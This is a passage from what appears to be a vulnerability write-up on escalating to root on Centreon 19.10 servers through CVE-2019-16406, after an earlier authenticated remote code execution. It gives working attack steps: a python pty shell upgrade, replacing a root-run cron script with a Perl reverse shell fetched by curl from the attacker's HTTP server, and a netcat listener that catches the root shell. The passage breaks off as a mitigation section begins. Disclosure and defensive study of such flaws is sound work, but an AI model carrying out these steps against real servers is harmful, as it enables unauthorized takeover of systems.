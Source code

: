**Authenticated Remote Code Execution has been successful!**

_(This was the write up for **CVE-2019-19699**)_

From here on we move to gaining **Root** 

We will use **CVE-2019-16406** found by _TheCyberGeek_ to fully compromise the Centreon =< 19.10 server

Let's start by spawning a **TTY shell** in our current reverse shell terminal

```python -c 'import pty; pty.spawn("/bin/sh")'```
<p align="center">
  <img src="img/tty_shell.gif"
</p>
  
We now take a look which cron tasks exist by doing a **cat /etc/cron.d/***
<p align="center">
  <img src="img/cat_cron.gif"
</p>
  
We now see that **centreon_autodisc.pl** is a Cron task

(Was set from _30 22 * * * root_ **to**  _* * * * * root_ for **demonstration purposes**)
<p align="center">
  <img src="img/cron_disco.png"
</p>
  
This is executed as **Root**, lets _replace_ the **centreon_autodisco.pl** with a **Perl reverse shell**

The **Perl shell** i will be using, can be downloaded [here](http://pentestmonkey.net/tools/web-shells/perl-reverse-shell)

Download the reverse shell, and edit the **ip address** and **port** to yours as explained on the web page

Preform a mv to rename the **perl-reverse-shell.pl** to **centreon_autodisco.pl** file locally
<p align="center">
  <img src="img/mv_shell.png"
</p>
  
Lets go ahead and start a local **_SimpleHTTPServer_** on a port of your choice
  <p align="center">
<img src="img/http_server.png"
</p>
    
This way, we can **_curl http://{local_ip}:{port}/centreon_autodisco.pl -o /usr/share/centreon/www/modules/centreon-autodiscovery-server//cron/centreon_autodisco.pl_** to replace the existing **centreon_autodisco.pl** with our _trojan_ Perl reverse shell
<p align="center">
  <img src="img/curl_rootshell.png"
</p>
  
Now the file file has been replaced, all there is left to do is start a **Netcat listener** on the port we have previously configured, and we will get a connection back from the server as user **Root**!
<p align="center">
  <img src="img/root.gif"
</p>
  
**Root system access has been successful!**

Now on to the notes on how we think the **privilege escalation** should be **mitigated**!

**Current settings in 19.10:**
```